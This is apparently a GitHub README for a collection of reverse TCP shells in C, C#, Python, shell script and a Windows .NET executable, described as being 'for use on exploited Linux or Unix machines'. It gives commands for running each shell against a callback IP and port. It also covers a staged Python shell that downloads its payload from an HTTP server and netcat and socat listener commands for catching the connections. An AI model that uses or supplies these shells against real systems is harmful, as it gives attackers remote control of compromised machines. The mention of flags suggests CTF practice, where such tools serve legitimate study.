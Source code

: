 # Reverse-Shell-Lib
The following repository contains multiple versions of a reverse tcp netcat shell for use on exploited Linux or Unix machines

# C Reverse Shell
  In order to use this shell it must be compiled with the following command
  
    gcc reverse_tcp.c -o reverse_tcp
  
  It may then be called by:
  
    ./reverse_tcp [callback_ip] [port]
  
 
# C# Reverse Shell
  If dotnet is installed on the system you may use the C# program
  
  In order to use this shell it must be compiled with the following command
  
    dotnet build reverse_tcp.cs
    
  It may then be called by:
    
    ./reverse_tcp [callback_ip] [port]
  
# Python Reverse Shell
  If python3 is on the system you may use the reverse_tcp.py script
  
  Simply call it with the following command:
  
    python3 reverse_tcp.py [callback_ip] [port]
  
  # Staged Python Shell
  If you wish to run a staged shell you must first host the "reverse_tcp.py" payload on a HTTP server and you must configure its default callback address

  to call a staged shell run the following command:

    python3 reverse_tcp_staged.py http://[HTTPSERVER]/[route to reverse_tcp.py]
  
# Shell Script Reverse Shell
  This should be the most effective as it should run on all targets and is in fact the smallest payload
  
  Simply chmod it and call it like so:
    
    ./reverse_tcp.sh [callback_ip] [port]
    
 # Windows Reverse Powershell
  Since none of the other methods work on windows the reverse_tcp.exe is a .NET executable with the same ease of use as the others
  
  To run this on a target simply run it from the command line like so:
  
    .\reverse_tcp.exe [callback_ip] [port]
    
    
# Attacker Listener
  These reverse shells were all written for ease of use attackers can open a simple netcat or socat listener to receive the payloads
  
  Netcat:
    nc -nvlp [port]
    
  Socat:
    socat -d -d TCP4-LISTEN:[port] STDOUT
    
  Once your listener is up just wait for the payload to come your way and get them flags XD
    
